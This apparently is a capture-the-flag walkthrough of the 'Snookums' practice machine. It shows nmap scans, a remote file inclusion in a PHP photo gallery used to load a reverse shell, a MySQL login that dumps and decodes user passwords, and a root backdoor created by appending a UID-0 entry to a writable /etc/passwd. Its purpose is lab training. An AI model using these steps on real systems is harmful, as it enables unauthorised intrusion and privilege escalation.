







Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.209.58
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-14 23:11 IST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 7.64% done; ETC: 23:11 (0:00:24 remaining)
Nmap scan report for 192.168.209.58
Host is up (0.22s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 28.18 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 21,22,80,111,139,445,3306,33060 192.168.209.58
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-14 23:12 IST
Nmap scan report for 192.168.209.58
Host is up (0.61s latency).

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.232
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp    open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:79:67:12:c7:ec:13:3a:96:bd:d3:b4:7c:f3:95:15 (RSA)
|   256 a8:a3:a7:88:cf:37:27:b5:4d:45:13:79:db:d2:ba:cb (ECDSA)
|_  256 f2:07:13:19:1f:29:de:19:48:7c:db:45:99:f9:cd:3e (ED25519)
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Simple PHP Photo Gallery
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp   open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp  open  mysql       MySQL (unauthorized)
33060/tcp open  mysqlx      MySQL X protocol listener
Service Info: Host: SNOOKUMS; OS: Unix

Host script results:
| smb2-time: 
|   date: 2026-02-14T17:42:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: snookums
|   NetBIOS computer name: SNOOKUMS\x00
|   Domain name: \x00
|   FQDN: snookums
|_  System time: 2026-02-14T12:42:57-05:00
|_clock-skew: mean: 1h40m01s, deviation: 2h53m16s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.72 seconds
```
https://medium.com/@ardian.danny/oscp-practice-series-34-proving-grounds-snookums-34fc8fbb144c
https://www.exploit-db.com/exploits/48424
Anonymous login is allowed. Seems like we can’t interact with the FTP server. I tried exiting passive mode and stuff, but it’s still stuck.

SMB got nothing interesting.

Let’s check the web now..

OH, so this is actually a known software. I thought it was custom software.  
Let’s search for exploits. We know the version is `v0.8`. There’s only an exploit for version 0.7, so I decided to try it. It’s an RFI vulnerability. The ExploitDB link didn’t really explain where the vulnerable path is. So I searched for another exploit. 
https://www.exploit-db.com/exploits/48424

Here, we can see the vulnerable path is on `/image.php?img` or `/image.php?i`. Let’s try.

From here we got to know there is a user named michael. So we can upload php reverse shell.

I hosted a server to load the `php-reverse-shell`.




We got the shell.

**The server only allows traffic on the open port. Like the server allows inbound and outbound traffic on the ports they have opened.**
Stabilizing the shell.
Confirming the existence of user michael.

We know there’s mysql, so let’s look for db config and check the db.


Accessing mysql database.
```sh
mysql -h 127.0.0.1 -u root -pMalapropDoffUtilize1337
``` 


```sh
SHOW databases;
```


```sh
USE SimplePHPGal;
SHOW tables;
select * from users;
```


Nice we got michael’s creds..
josh:VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0=  
michael:U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==  
serena:VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==  
  
decoded  
  
josh:MobilizeHissSeedtime747  
michael:HockSydneyCertify123  
serena:OverallCrestLean000


Login to the ssh using michael's creds.

Getting the linpeas on remote server. Run it.

Linpeas discovered that we own `/etc/passwd`. We can use this to our own advantage.


So, we will add user to /etc/passwd with root privileges.
```sh
openssl passwd Test@1234
```

This command generates a **hashed (encrypted) version** of the password `Test@1234`.
Adding user to /etc/passwd
```sh
echo 'offsec:$1$czryjQXf$Jf0i2gGY9ANzmuEHnQjm51:0:0:root:/root:/bin/bash' >> /etc/passwd
```
This command **adds a new user entry**(offsec) to the system’s `/etc/passwd` file.


### In this scenario, previously when we got the shell for michael at that time also we the took local flag but we missed that screenshot.


